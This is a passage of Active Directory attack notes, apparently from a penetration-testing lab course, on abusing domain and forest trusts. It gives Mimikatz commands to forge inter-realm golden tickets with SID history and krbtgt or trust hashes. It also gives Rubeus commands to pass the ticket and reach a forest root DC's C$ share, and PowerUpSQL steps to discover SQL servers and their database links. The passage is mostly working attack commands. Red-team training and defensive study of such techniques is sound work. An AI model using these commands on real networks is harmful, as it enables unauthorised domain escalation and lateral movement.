 Forge an inter-realm trust ticket:
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:c672f9494aaeefa352e65085c2ad7e19 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

Request TGS and TGT with Rubeus:
```bash
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt

ls \\mcorp-dc.moneycorp.local\c$
```

## Using krbtgt

We need the krbtgt hash for this.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'
```

The rest of the attack is as follows above.

## Trust Abuse - MSSQL Servers
SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Check accessibility
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.

In case of database links between SQL servers, it is possible to execute stored procedures.

Database links work even across forest trusts.

#### Searching Database Links
Look for links to remote servers
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
# or
select * from master..sysservers
```
